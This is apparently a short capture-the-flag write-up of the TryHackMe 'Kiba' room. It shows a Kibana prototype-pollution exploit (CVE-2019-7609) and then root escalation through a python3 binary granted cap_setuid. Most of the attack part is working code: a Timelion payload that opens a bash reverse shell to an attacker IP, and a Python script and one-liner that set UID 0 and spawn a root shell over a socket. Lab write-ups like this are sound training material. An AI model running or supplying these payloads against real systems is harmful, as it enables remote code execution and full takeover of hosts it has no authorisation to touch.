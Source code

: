 #prototype-pollution #javascript #capabilities

https://tryhackme.com/r/room/kiba

---
#### Nmap
![[Screenshot_2024-05-30_16-09-00.png]]

Kiba is on port `5601`

I'll use this [CVE](https://github.com/mpgn/CVE-2019-7609) to get a reverse shell through RCE:
```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.14.79.56/9001 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

And here I m in

Now it's time to explain this new spell, I've learnt: **Capabilities**

Here is the thing, `linpeas` gave me:
```text
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```
This mean the `setuid` capability has been given to this python3 binary with the flags `e`ffective and `p`ermitted.
So I can change my UID during a python script to elevate root with `os.setuid(0)` and then trigger a reverse shell:
```python
import socket
import subprocess
import os

os.setuid(0) #here I become root

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.14.79.56",9003))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

The short version from revshell with `os.setuid(0)` added:
```shell
/home/kiba/.hackmeplease/python3 -c 'import socket,subprocess,os;os.setuid(0);s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.79.56",9003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And here I am root

